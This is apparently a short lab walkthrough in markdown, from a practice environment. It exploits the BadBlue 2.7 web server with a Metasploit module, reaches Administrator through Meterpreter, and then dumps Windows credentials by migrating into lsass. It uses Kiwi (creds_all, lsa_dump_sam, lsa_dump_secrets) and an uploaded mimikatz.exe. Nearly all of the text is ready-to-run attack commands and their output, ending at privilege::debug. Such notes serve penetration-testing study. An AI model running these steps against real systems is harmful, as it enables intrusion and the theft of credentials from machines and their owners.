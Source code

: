 ### Exploitation

```bash
search badblue 2.7
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

### Hash Dumping - Kiwi

```bash
pgrep lsass
migrate 776

# Meterpreter: x64/windows
```

```bash
load kiwi
```

```bash
creds_all
lsa_dump_sam
lsa_dump_secrets
```

### Hash Dumping - Mimikatz.exe

```bash
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

- Run `mimikatz.exe`

```bash
mimikatz.exe
privilege::debug
	Privilege '20' OK
# I have the required privileges for hash extraction from memory
```
